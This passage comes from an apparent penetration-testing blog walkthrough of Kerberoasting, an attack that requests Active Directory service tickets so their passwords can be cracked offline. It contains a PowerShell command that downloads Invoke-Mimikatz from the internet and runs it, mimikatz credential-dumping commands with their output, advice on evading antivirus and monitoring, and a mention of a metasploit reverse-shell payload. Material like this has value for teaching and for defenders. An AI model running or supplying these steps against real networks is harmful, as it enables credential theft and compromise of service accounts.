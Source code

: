 *This is where you need to pay attention.* The service ticket is encrypted using the secret key (_read, 'password'_) of the account used in the SPN (`svcSQLServ` in this case)! The server never checks if the ticket ever went through the entire process of actually being used, it just happily generates them for whoever asks... Note, the server hosting the service will still validate the ticket itself (99% of the time without rechecking the ticket with the Kerberos server).

What does that mean for an attacker? Well, we can request the service ticket... and... attempt to decrypt it by brute forcing it offline! If the decryption is successful, then we have successfully compromised a service account.

## enter kerberoast
[Kerberoast](https://github.com/nidem/kerberoast) is a tool that can amongst other things, crack Kerberos ticket passwords. The general idea is that we get the SPN's (like we did), request kerberos service tickets for them, dump the ticket out of memory and send it to the `tgsrepcrack.py` script to crack against a wordlist.

All of this can be done as a normal domain user and does not require any elevated privileges. To assist us in dumping kerberos tickets out of memory, we are going to load mimikatz by using `Invoke-Mimikatz` (from the [PowerSploit Repository](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)). This method has a very small to no chance of getting detected by AV atm. Lets get that loaded:

```
PS C:\> Invoke-Expression (New-Object Net.Webclient).downloadstring('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1')
PS C:\> Invoke-Mimikatz

  .#####.   mimikatz 2.0 alpha (x64) release "Kiwi en C" (Dec 14 2015 19:16:34)
 .## ^ ##.
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                     with 17 modules * * */


mimikatz(powershell) # sekurlsa::logonpasswords
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)

mimikatz(powershell) # exit
Bye!
```

Just running `Invoke-Mimikatz` might not be entirely opsec safe as, by default, it will run the `sekurlsa::logonpasswords` command (which may trigger some monitoring). You may have also noticed the `LOAD_MODULES` setting in the `windows/powershell_reverse_tcp` payload. Here we can actually give it the URL's we are going to load with `Invoke-Expression` and metasploit will download and prep that for you! :)

Anyways, lets check the current cached kerberos tickets that we have for this session.

```
PS C:\> Invoke-Mimikatz -Command '"kerberos::list"'

  .#####.   mimikatz 2.0 alpha (x64) release "Kiwi en C" (Dec 14 2015 19:16:34)
 .## ^ ##.
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                     with 17 modules * * */


mimikatz(powershell) # kerberos::list

PS C:\>
```
